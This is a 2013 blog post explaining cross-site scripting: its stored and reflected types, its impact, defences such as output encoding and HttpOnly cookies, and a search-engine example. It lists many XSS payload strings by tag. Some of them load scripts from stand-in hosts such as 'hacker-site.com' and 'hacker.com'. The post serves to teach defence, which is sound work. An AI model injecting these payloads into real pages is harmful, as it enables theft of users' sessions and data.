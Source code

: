 ```yaml
---
layout: post
title:  "Cross Site Scripting(XSS)"
date:   2013-06-18 13:59:40
categories: vulnerabilities
---
```


Cross Site Scripting (XSS) is the act of injecting malicious scripts or other HTML code into a web page that runs on the client browser and cause damage to your web site users. Mostly it works when your trust on a user input (e.g. feedback comments) and render such information as part of web page HTML without validating the contents thus all other users who visit this web page may become of attack.

	Depending on the malicious script, it may execute automatically in web browser when the page is loading or it may trigger with a user action. Few web browsers like Internet Explorer put such infected web pages under suspected category and give warnings to user if any scripting code is being executed while web page is rendering but many Cross Site Script works by tricking with users and encouraging them to click on a link/image etc. that leads to malicious action without users being aware of such actions.

	Simplest example to understand how it works: If you enter following JavaScript code in a Comment section of webpage, then next time whenever the page will load in browser it will execute the java script and prompt user with “hello” message:

<script>alert(hello);</script>
Injecting code with Img tag: <img src=javascript:alert(hello);>

	Tricking users could be as simple as sending a interesting jpg (image) file to a user by email or putting a link in comment and embedding the malicious script into the jpg/image file. Many users does not see any risk with a image file but as soon as they click on the link from attacker’s source their security may be compromised.

Cross Site Scripting (XSS) Attack How it works?

If the attacker found a way to inject his script and he is capable to run his script in user’s browser then he may use this vulnerability to perform many actions like getting access to all other sensitive data (e.g. page contents, data & session cookies) available under current user session and he may pass such sensitive information to any other site without user being able to notice the attack or anything suspicious. Sometimes attacker does not get any direct benefit with the Cross Site Scripting (XSS) attack but it may help him to exploit other vulnerabilities.

Because Cross Site Scripting (XSS) attack impacts the website user base hence the influence of attack is very much dependent on the target user base of website. For example attacking a social website homepage may allow attacker to steal sensitive data from all the users who visit the website.

Cross Site Scripting (XSS) attack is also very harmful because the malicious html code runs in trusted zone, if user trust on your website contents and if your website also trust the authticated/anonymous user then both sides are acting in a trust environment thus allow max. potential to the attacker. While other attacks like SQL Injection attack can be monitored with monitoring tools and defendable with server side implementation, you are less capable of monitoring Cross Site Scripting (XSS) attack when the action is happening on client side.

Type of Cross Site Scripting (XSS) Attacks:

Cross Site Scripting (XSS) attacks are broadly categorized in two categories:

1) Persistent/Stored XSS:The persistent XSS is stored on the server side as part of infected webpage and it may impact all of the users who visit the webpage. It could be a trusted social website but the webpage is crafted by the attacker. You may find interesting stuff on attacker’s space but this webpage may contain malicious scripts or links.

2) Non-Persistent/Reflected XSS: Reflected attack is usually delivered by including a malicious link in a email. On top of it the link URL may appear pointing to a non-harmful/trusted website but containing the hidden XSS attack vector. When user clicks on the link, he may be redirected to the trusted site but the hidden XSS attack vector would execute malicious script and compromise the user data available with vulnerable website. Sometime the link may be pointing directly to a website compromised/hosted by the attacker, similar to above example of sending a interesting image/jpg file to the target user.

Impact:Cross Site Scripting allows an attacker to embed malicious JavaScript, VBScript, ActiveX, HTML, or Flash into a vulnerable dynamic page to fool the user, executing the script on his machine in order to gather data. The use of XSS might compromise private information, manipulate or steal cookies, create requests that can be mistaken for those of a valid user, or execute malicious code on the end-user systems. The data is usually formatted as a hyperlink containing malicious content and which is distributed over any possible means on the internet.

How to Prevent:

Because Cross Site Scripting (XSS) attacks may be crafted and delivered to users in multiple ways, you would not only need to protect your website implementation but also have to secure user actions and the data stored on the user side mostly in Cookie.

Identify Vulnerable Areas: For server side protection you first need to identify all those interfaces that render HTML based in inputs provided by users .e.g. Comments or feedback on your posts. The input could be indirect, for example the registered user’s name or id that if displayed in your website to other users.

Validate & Encode/Escape User Inputs: Once you know what all areas in your website depends on dynamic/user inputs then put the validation code to check that data is not matching the attack pattern e.g. does not have Script tags. The attack patterns are not limited and it may not be possible for you to put right defense in place to identify all possible patterns. Using a Web Application Firewall may be a quick solution.
Whether you may validate user inputs or not, you must HTML encode user provided data. You may use OWASP Antisamy API, HtmlPurifier or other security tools available for safe encoding of malicious contents. If the webpage also use Query string/URL parameters for HTML rendering then also URLEncode such data.

The complexity may increase when you provide WYSWYG or rich text editors as part of your applications and want to allow users to format their inputs using HTML tags.

When using ASP.Net:

- turn on correct Character encoding by setting the requestEncoding & responseEncoding attributes to “ISO-8859-1? & “ISO-8859-1? respectively in Web.Config file under “globalization” section.

- ASP.Net also provides protection by auto validating user inputs and restricting use of Scripts. To turn on this protection set validateRequest attribute to “true” in your Web.config file.

- Use innerText instead of innerHTML when you dynamically set the HTML of any tag during server side code. For example showing the Logged in user’s name in a HTML object that is retrieved from database but actually this input is controlled by the user when creating his profile.

Secure data saved in Cookie: If you store any sensitive data with Cookie on client side that must be encrypted and always checked for valid pattern before trusting such data. It is a wide spread practice to create a session id for authenticated users, storing session id in a cookie and web applications solely relying on session cookie to validate if the user has already login and authentic. Any XSS attack with that attacker may steal session cookie, allow attackers to login as fake user and further compromise website or user data. Simply encrypting session id here does not help because the attacker would also pass a correctly encrypted session id. To mitigate this problem you may validate session Id against the user IP address and may ask for reauthentication if the IP address has changed.

You should also set the HttpOnly cookie attribute that restrict client-side scripts to access a Cookie property of document object on client side script.
Vulnerable HTML Tags

The following HTML tags are commonly used by attackers to inject script code that should be looked closely for content validation:

	<img>
	<link>
	<frame>
	<iframe>
	<embed>
	<meta>

Other dangerous tags:

	<frameset>
	<applet>
	<object>
	<html>
	<body>
	<layer>
	<ilayer>

“script”, “style”, “src”, “href”, “lowsrc” are the attributes that are used to inject the malicious scripts.

The “style’ tag may be used to inject script by setting the “Type” attribute value as “text/JavaScript”.

<style TYPE=”text/javascript”>
alert(‘you are done!’);
</style>

<SCRIPT>

The <SCRIPT> tag is the most popular way and sometimes easiest to detect. It can arrive to your page in the following forms:

External script:

<SCRIPT SRC=http://hacker-site.com/xss.js></SCRIPT>

Embedded script:

<SCRIPT> alert(“XSS”); </SCRIPT>

<BODY>

The <BODY> tag can contain an embedded script by using the ONLOAD event, as shown below:

<BODY ONLOAD=alert("XSS")>

The BACKGROUND attribute can be similarly exploited:

<BODY BACKGROUND="javascript:alert('XSS')">

<IMG>

Some browsers will execute a script when found in the <IMG> tag as shown here:

<IMG SRC="javascript:alert('XSS');">

There are some variations of this that work in some browsers:

<IMG DYNSRC="javascript:alert('XSS')">
<IMG LOWSRC="javascript:alert('XSS')">

<IFRAME>

The <IFRAME> tag allows you to import HTML into a page. This important HTML can contain a script.

<IFRAME SRC=”http://hacker-site.com/xss.html”>

<INPUT>

If the TYPE attribute of the <INPUT> tag is set to “IMAGE”, it can be manipulated to embed a script:

<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">

<LINK>

The <LINK> tag, which is often used to link to external style sheets could contain a script:

<LINK REL="stylesheet" HREF="javascript:alert('XSS');">

<TABLE>

The BACKGROUND attribute of the TABLE tag can be exploited to refer to a script instead of an image:

<TABLE BACKGROUND="javascript:alert('XSS')">

The same applies to the <TD> tag, used to separate cells inside a table:

<TD BACKGROUND="javascript:alert('XSS')">

<DIV>

The <DIV> tag, similar to the <TABLE> and <TD> tags can also specify a background and therefore embed a script:

<DIV STYLE="background-image: url(javascript:alert('XSS'))">

The <DIV> STYLE attribute can also be manipulated in the following way:

<DIV STYLE="width: expression(alert('XSS'));">

<OBJECT>

The <OBJECT> tag can be used to pull in a script from an external site in the following way:

<OBJECT TYPE="text/x-scriptlet" DATA="http://hacker.com/xss.html">

<EMBED>

If the hacker places a malicious script inside a flash file, it can be injected in the following way:

<EMBED SRC="http://hacker.com/xss.swf" AllowScriptAccess="always">

Example of a Cross Site Scripting Attack

As a simple example, imagine a search engine site which is open to an XSS attack. The query screen of the search engine is a simple single field form with a submit button. Whereas the results page, displays both the matched results and the text you are looking for.

Search Results for "XSS Vulnerability"

To be able to bookmark pages, search engines generally leave the entered variables in the URL address. In this case the URL would look like:

http://test.searchengine.com/search.php?q=XSS%20

Vulnerability

Next we try to send the following query to the search engine:

	<script type="text/javascript">
	alert ('This is an XSS Vulnerability')
	</script>

By submitting the query to search.php, it is encoded and the resulting URL would be something like:

http://test.searchengine.com/search.php?q=%3Cscript%3Ealert%28%91This%20is%20an%20XSS%20Vulnerability%92%29%3C%2Fscript%3E

Upon loading the results page, the test search engine would probably display no results for the search but it will display a JavaScript alert which was injected into the page by using the XSS vulnerability.
